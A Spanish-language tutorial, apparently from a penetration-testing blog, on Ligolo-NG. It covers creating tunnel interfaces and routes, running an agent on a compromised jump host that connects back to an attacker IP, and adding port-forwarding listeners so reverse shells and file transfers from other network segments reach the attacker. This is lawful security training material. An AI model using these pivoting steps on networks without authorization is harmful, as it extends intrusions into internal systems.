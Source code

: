 ```yaml
---
title: "Tutorial de Ligolo-NG"
date: Tue May 21 2024 02:00:00 GMT+0200 (Central European Summer Time)
categories: [Tutoriales, Ligolo-NG]
tags: [ligolo, ligolo-ng, proxy]
image: /assets/img/cabeceras/ligolo-cab.png
---
```


#### CONFIGURACIÓN Y PUESTA EN MARCHA DE LIGOLO-NG

##### MÁQUINA ATACANTE O PROXY (NUESTRA MÁQUINA):

Primero crearemos la interface "ligolo" y la inicializaremos:

```bash
$ sudo ip tuntap add user andy mode tun ligolo
$ sudo ip link set ligolo up
$ sudo ip route add 172.16.249.0/24 dev ligolo
```

Ejecutaremos el proxy por el puerto que queramos estar escuchando:

```bash
$ ./ligolo-proxy -selfcert 

O si queremos levantar la red directamente:
$ ./ligolo-proxy -selfcert -laddr 0.0.0.0:4433
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023195808.png)

----

##### MÁQUINA VÍCTIMA DE SALTO:

En la máquina víctima que nos hará de salto entre ambos segmentos de red ejecutaremos lo siguiente:

```PowerShell
> .\ligolo-agent.exe -connect 192.168.45.237:11601 -ignore-cert -retry
...
time="2023-10-23T10:34:58-07:00" level=info msg="Connection established" addr="192.168.45.237:4433"
```

Y ya está. Este último paso lo tendremos que hacer por cada máquina que tenga un segmento de red al que no podemos acceder. No hace falta ser un usuario con altos privilegios para ejecutar el agente, ya sea una máquina Linux o Windows.

----

##### MÁQUINA PROXY:

Ahora si nos fijamos en nuestra máquina, veremos que tenemos una conexión entrante:

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023200157.png)

Pulsamos intro y activamos la sesión 1, que es la única que hay. Si hubiese más tendríamos que activarla antes de usar el túnel creado.

```bash
ligolo-ng >> session
ligolo-ng >> 1
ligolo-ng >> start
```

Probamos si tenemos conexión a la red a la que queremos llegar:

```BASH
$ ping 172.16.249.11

PING 172.16.249.11 (172.16.249.11) 56(84) bytes of data.
64 bytes from 172.16.249.11: icmp_seq=1 ttl=64 time=47.5 ms
64 bytes from 172.16.249.11: icmp_seq=2 ttl=64 time=43.2 ms
64 bytes from 172.16.249.11: icmp_seq=3 ttl=64 time=42.9 ms
```

Fantástico!!! Ya tenemos conexión con el segmento de red desde nuestra máquina!

----
- <font color="#c0504d">LLEGADOS A ESTE PUNTO EL PROBLEMA QUE SE NOS PRESENTA ES QUE LAS MÁQUINAS A LAS QUE YA PODEMOS ACCEDER NO TIENEN CONEXIÓN DIRECTA HACIA NOSOTROS, POR LO QUE UNA REVERSE SHELL O TRANSFERENCIA DE ARCHIVOS NO FUNCIONARÍA. PARA SOLUCIONARLO HAREMOS UN</font> _PORT FORWARDING_ <font color="#c0504d">HACIA NUESTRA MÁQUINA ATACANTE.</font>
----

#### PORT FORWARDING HACIA NUESTRA MÁQUINA (LISTENER LIGOLO-NG)

##### MÁQUINA PROXY

Vamos a nuestra consola proxy de _Ligolo_ y escribimos el listener que queremos levantar:

```bash
[Agent : WEB02\Administrator@WEB02] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```

Esto significa que todo el tráfico que reciba la máquina de salto por el puerto 8080 lo recibirá nuestra máquina atacante por el puerto 80. De esta manera si queremos tener una reverse shell de cualquier máquina o transferir archivos, el exploit o la RS deberá apuntar a la IP y al puerto 8080 de la máquina de salto y nosotros deberemos escuchar en el puerto 80 con NC, Webserver de Python o cualquier servicio que hayamos levantado en nuestra máquina y queramos llegar desde la máquina víctima que está en otro segmento de red.

-----

#### LISTADO DE LISTENERS

Para ver un listado de todos los LISTENERS que tenemos activos lo podremos hacer con este sencillo comando desde nuestra consola de proxy de _Ligolo_.

```bash
[Agent : WEB02\Administrator@WEB02] » listener_list
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231024162410.png)

-----

#### LIMPIEZA Y BORRADO DE INTERFACES

##### MÁQUINA PROXY:

Para borrar las interfaces y rutas creadas tenemos dos opciones, reiniciar nuestra máquina ya que no son configuraciones permanentes o, si no podemos o no queremos, ejecutaremos los siguientes comando en nuestra máquina:

```bash
$ sudo ip route del 172.16.249.0/24 dev ligolo
...
$ sudo ip link del ligolo
```


-----

Repositorio de descarga:
https://github.com/nicocha30/ligolo-ng
